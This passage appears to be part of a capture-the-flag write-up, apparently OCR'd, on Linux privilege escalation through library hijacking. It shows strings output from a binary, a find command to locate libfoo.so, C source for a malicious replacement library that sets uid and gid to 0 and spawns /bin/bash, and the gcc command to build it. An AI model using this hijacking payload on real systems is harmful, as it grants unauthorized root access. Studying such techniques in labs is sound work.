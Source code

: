 ```shell
sleep@GLIBC_2.2.5
__cxa_finalize@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.got.plt
.data
.bss
.comment
```

And this output show some binary that don't have any path or some libraries like `libfoo.so`,`libc.so.6` so when i use find command to find the path of that file i came to know  `libfoo.so` belong to `j4x0n`
```shell
$ find / -name libfoo.so -exex ls -al {} \; 2>/dev/null
```
so i made a malicious `libfoo.so` with the following procedure 
- first we have to make a file name `libfoo.c` with the following code
```
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h> 
int foo() { 
setgid(0); 
setuid(0); 
system("/bin/bash"); 
}

```
- After that we have to compile that file with the following command
```shell
$ gcc -fPIC -shared -o libfoo.so libfoo.c
```
They give us the file `libfoo.so` with malicious code

